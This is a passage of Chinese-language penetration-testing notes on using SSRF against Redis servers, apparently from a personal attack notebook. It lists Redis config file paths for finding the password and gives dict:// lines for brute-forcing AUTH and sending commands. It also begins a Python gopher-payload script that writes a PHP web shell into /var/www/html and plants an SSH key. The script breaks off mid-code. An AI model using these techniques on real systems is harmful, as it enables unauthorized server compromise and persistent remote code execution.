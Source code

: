 ![image-20230920210825530](../../../images/image-20230920210825530.png)

更改改JESSIONID为123，再次访问即可触发反序列化。



# SSRF打Redis

## 低版本情况

配合http请求

> 低版本的Redis会将http请求的请求头内容作为redis命令解析

### 需要认证情况

**先找到redis服务的认证密码，转到未授权情况**

- 配置文件

  ```php
  # 通过requirepass来定位密码
  /etc/redis.conf
  /etc/redis/redis.conf
  /usr/local/redis/etc/redis.conf
  /opt/redis/ect/redis.conf
  ```

- 弱密码爆破

  ```python
  dict://192.168.174.129:6379/AUTH passwd
  ```

  认证成功

  ![image-20221118222335249](../../../images/image-20221118222335249.png)

  认证失败

  ![image-20221118222420964](../../../images/image-20221118222420964.png)



### 未授权情况

**配合dict协议**

```php
dict://x.x.x.x:6379/<Redis 命令>
```

**配合gopher协议**

首先要将命令转换为RESP协议格式

```python
import urllib.request, urllib.parse, urllib.error

protocol="gopher://"
ip="192.168.163.128"
port="6379"

# 写马
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n" #写入的文件内容
filename="shell.php"
path="/var/www/html" # web目录

# 写ssh公钥
/*
```